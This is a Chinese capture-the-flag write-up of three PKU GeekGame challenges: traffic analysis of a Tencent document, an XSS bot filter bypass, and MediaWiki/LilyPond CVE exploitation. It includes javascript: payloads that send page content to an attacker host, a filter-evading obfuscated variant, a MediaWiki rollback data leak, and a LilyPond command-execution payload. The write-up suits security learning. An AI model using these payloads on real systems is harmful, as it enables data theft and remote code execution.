






虽然比hackergame难一丢丢，但是还是很有意思的

## 企鹅文档

直接就是打腾讯了，tqqqqql



直接访问文档是没有权限的

> **第二阶段提示：**
>
> - 本题其实是一道流量分析题。
> - 在 Chrome 开发者工具的 Network 功能中，点击放大镜按钮可以搜索流量中的内容。

根据提示看流量内容



搜索即可看到全部内容，下面两个拼凑在一起才是全的

得到链接

```
https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobsBzRJEs_next
```



又给出了har流量包文件

放到**Network**中打开，根据格式写出exp肉眼能看

```python
a = [24,25,26,34,35,37,38,45,46,55,56,57,58,67,68,78,79,88,89,90,91,111,112,113,123,124,134,135,145,146,156,157,167,168,177,178,179,180,199,200,201,202,213,214,221,222,223,224,225,231,232,235,236,243,244,245,247,248,265,266,267,269,270,275,276,279,280,286,287,290,291,298,299,300,301,302,312,313,319,320,321,322,323,344,345,346,354,355,365,366,374,375,376,387,388,398,399,410,411,412,429,430,434,435,440,441,445,446,451,452,456,457,462,463,465,467,468,473,474,475,476,477,478,479,484,485,486,488,489,490,495,496,500,501,518,519,520,521,528,529,532,533,539,540,541,542,543,544,550,551,562,563,564,565,585,586,595,596,597,598,605,606,609,610,616,617,620,621,627,628,629,630,631,632,638,639,642,643,649,650,653,654,671,672,674,675,676,683,684,685,687,688,694,695,698,699,705,706,715,716,717,718,738,739,740,741,748,749,752,753,759,760,761,762,763,764,770,771,782,783,784,785,803,804,808,809,814,815,816,819,820,825,826,827,828,830,831,836,837,839,840,841,842,847,848,851,852,853,858,859,863,864,869,870,874,875,892,893,894,895,902,903,906,907,913,914,917,918,924,925,928,929,936,937,938,939,960,970,971,980,981,982,983,984,992,993,1003,1004,1014,1015,1017,1026,1027,1046,1047,1048,1049,1056,1057,1060,1061,1067,1068,1069,1079,1080,1081,1092,1093,1094,1100,1101,1104,1105,1112,1113,1114,1115,1133,1134,1136,1137,1138,1145,1146,1149,1150,1156,1157,1160,1161,1167,1168,1169,1170,1171,1178,1179,1188,1189,1190,1191,1211,1212,1213,1214,1221,1222,1225,1226,1232,1233,1236,1237,1243,1244,1247,1248,1255,1256,1257,1258,1276,1277,1278,1279,1280,1287,1288,1291,1292,1298,1299,1302,1303,1309,1310,1313,1314,1320,1321,1324,1325,1343,1344,1345,1346,1347,1353,1354,1365,1366,1367,1368,1379,1380,1386,1387,1388,1389,1390,1409,1410,1411,1412,1419,1420,1423,1424,1430,1431,1434,1435,1441,1442,1445,1446,1453,1454,1455,1456,1474,1475,1477,1478,1479,1486,1487,1488,1490,1491,1497,1498,1501,1502,1508,1509,1518,1519,1520,1521,1541,1542,1543,1544,1551,1552,1555,1556,1562,1563,1564,1565,1566,1567,1573,1574,1585,1586,1587,1588,1609,1610,1611,1621,1622,1632,1633,1640,1641,1642,1643,1644,1650,1651,1654,1655,1661,1662,1665,1666,1673,1674,1675,1677,1678,1694,1695,1696,1697,1698,1699,1706,1707,1710,1711,1717,1718,1721,1722,1728,1729,1730,1731,1732,1739,1740,1743,1744,1750,1751,1754,1755,1760,1761,1762,1763,1764,1765,1782,1783,1786,1787,1793,1794,1797,1798,1804,1805,1808,1809,1816,1817,1818,1819,1820,1830,1831,1837,1838,1839,1840,1841,1859,1860,1861,1862,1863,1864,1870,1872,1873,1875,1883,1884,1894,1895,1905,1906,1916,1917,1926,1927,1928,1929,1948,1949,1950,1951,1958,1959,1962,1963,1969,1970,1971,1972,1973,1974,1980,1981,1992,1993,1994,1995,2013,2014,2015,2016,2017,2024,2025,2028,2029,2035,2036,2039,2040,2046,2047,2050,2051,2057,2058,2061,2062,2080,2081,2082,2083,2090,2091,2094,2095,2101,2102,2112,2113,2116,2117,2124,2125,2126,2127,2146,2147,2148,2149,2156,2157,2160,2161,2167,2168,2169,2170,2171,2172,2178,2179,2190,2191,2192,2193,2211,2212,2213,2214,2215,2222,2223,2226,2227,2233,2234,2237,2238,2244,2245,2248,2249,2255,2256,2259,2260,2280,2290,2291,2300,2301,2302,2303,2304,2312,2313,2323,2324,2334,2335,2337,2346,2347,2365,2366,2367,2378,2379,2389,2390,2401,2402,2403,2411,2412,2422,2423,2431,2432,2433,2453]
for i in range(len(a)):
    a[i] = (int(a[i] / 11) * 10) + a[i] % 11
for i in range(len(a)):
    if str(a[i])[:-1] == str(a[i - 1])[:-1]:
        if int(str(a[i])[-1:]) - int(str(a[i - 1])[-1:]) != 1:
            for j in range(int(str(a[i])[-1:]) - int(str(a[i - 1])[-1:])):
                print(" ",end="")
        print("0",end="")
    elif str(a[i])[:-1] != str(a[i - 1])[:-1] and int(str(a[i])[:-1]) - int(str(a[i - 1])[:-1]) == 1:
        print("")
        for j in range(int(str(a[i])[-1:])):
            print(" ",end="")
        print("0",end="")
    else:
        print("")
        print("")
        for j in range(int(str(a[i])[-1:])):
            print(" ",end="")
        print("0",end="")
#flag{WeAreNotSponsoredByTencent}
```



## 给钱不要

简单阅读源码后可知

你给**xssbot**发送一个**tag**，bot就访问梗图网盘输入你的**tag**然后拿到图片

在梗图网盘输入完整的**url**是可以跳转到该**url**的

而**xssbot**会先通过[omnibox](chrome://omnibox/)来判断你发送的是**url  unknown** or **query**

若为**url**会停止访问

这里引用下别人的wp(毕竟没看源码...)

> ### 给钱不要！
>
> 访问「梗图网盘」，阅读前端的源代码，可见 XSS 攻击的漏洞：
>
> ```
> function go() {
>   location.href = document.getElementById("filename").value + ".jpg";
> }
> ```
>
> 只要在文本框中填入 `http:` URL，就能将网页重定向至攻击者的服务器；而填入 `javascript:` URL，就能在网页上运行攻击代码。例如，下面的 URL 能将包含 Flag 的内容发送给攻击者：
>
> ```
> javascript:location.href='http://mallory.example/?'+encodeURI(document.body.innerHTML)//
> ```
>
> 分析 XSS Bot 源代码 `prob06-xssbot.py`，可见其在填入文本框前，通过 `chrome://omnibox` 功能检测输入字符串的「安全性」。该网页是 Chrome 浏览器的地址栏调试工具。只有被 Chrome 识别为「query」或「unknown」的字符串才能被 XSS Bot 接受。访问该调试工具，输入上述 `javascript:` 代码，得知 Chrome 将其识别为「url」，从而被 XSS Bot 拒绝。
>
> 经反复测试，可发现不是所有的 `javascript:` 代码都会识别为「url」，有的代码会识别为「unknown」。事实上，通过 [Chromium 源代码](https://chromium.googlesource.com/chromium/src/+/refs/tags/106.0.5249.163/components/omnibox/browser/autocomplete_input.cc#304)可以找到其识别逻辑：
>
> ```
> // Treat javascript: scheme queries followed by things that are unlikely to
> // be code as UNKNOWN, rather than script to execute (URL).
> if (RE2::FullMatch(base::UTF16ToUTF8(text), "(?i)javascript:([^;=().\"]*)")) {
>   return metrics::OmniboxInputType::UNKNOWN;
> }
> ```
>
> 从正则表达式可见，如果代码中不包含 `;=()."` 等字符，就是安全的，能被 XSS Bot 接受。
>
> > 也可以阅读[这篇知乎回答](https://www.zhihu.com/answer/2722866208)：
> >
> > [](https://www.zhihu.com/answer/2722866208)
>
> 要让代码中避免上述字符，可将代码写成字符串字面量，其中的不安全字符都用 `\x__` 进行转义，再把字符串用 `eval()`、`Function()` 等方式求值。单引号是一个安全字符，可用其表示字符串字面量。调用函数时不用括号较为麻烦，但也有[若干种方法](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)，如通过[带标签的模板字符串](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Template_literals#带标签的模板字符串)。最终的攻击代码如下：
>
> ```
> javascript:Function`location\x2ehref\x3d'http://mallory\x2eexample/?'+encodeURI\x28document\x2ebody\x2einnerHTML\x29```//
> ```
>
> 搭建好服务器，用上述网址可以获得 Flag 2。要获得 Flag 1，需要使字符串识别成最安全的「query」，并将网页重定向至以 `GIVE-ME-FLAG-1 #=_= @!+!@ ^~^ %[*.*]%` 为标题的攻击者页面。
>
> 进一步分析 Chromium 源代码，寻找识别为「query」的条件。注意到 XSS Bot 通过 `remove_protocols()` 函数，帮我们在检测前移除了 URL 前的 `http://`。可以发现，如果[将 IPv4 地址用十进制数表示](https://chromium.googlesource.com/chromium/src/+/refs/tags/106.0.5249.163/components/omnibox/browser/autocomplete_input.cc#450)，并加入莫名其妙的用户名部分，就能让 URL 变得安全：
>
> ```
> http://x:@3221226222/?
> ```
>
> 搭建好服务器，用上述网址可以获得 Flag 1。

## 私有笔记

题目的种种页面都提示了本题就是一个CVE

第一个flag在历史记录里,第二个需要rce

### flag1

>  [CVE-2021-45038](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45038) An issue was discovered in MediaWiki before 1.35.5, 1.36.x before 1.36.3, and 1.37.x before 1.37.1. By using an action=rollback query, attackers can view private wiki contents.

在 [MediaWiki 安全公告](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)中找到该漏洞的利用方式，得知可通过以下链接获取 Flag 页面的内容：

```
https://prob07-deadbeef.geekgame.pku.edu.cn/index.php?action=rollback&from={{:Flag}}
```



利用给出的账号密码登陆

该版本**MediaWiki**并未爆出上面rce的漏洞，只好从插件入手



可以看到这个插件

在CVE中寻找漏洞可以找到

> [CVE-2020-17353](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17353) scm/define-stencil-commands.scm in LilyPond through 2.20.0, and 2.21.x through 2.21.4, when -dsafe is used, lacks restrictions on embedded-ps and embedded-svg, as demonstrated by including dangerous PostScript code.

在[Wikimedia Phabricator](https://phabricator.wikimedia.org/T257062)可以该漏洞的利用方式

```scheme
<score>\new Staff <<{c^#

(number->string (system "echo `cat /flag2` > /var/www/html/1.txt"))

}>></score>
```

访问即可

```
https://prob07-us5pyjli.geekgame.pku.edu.cn/1.txt
```

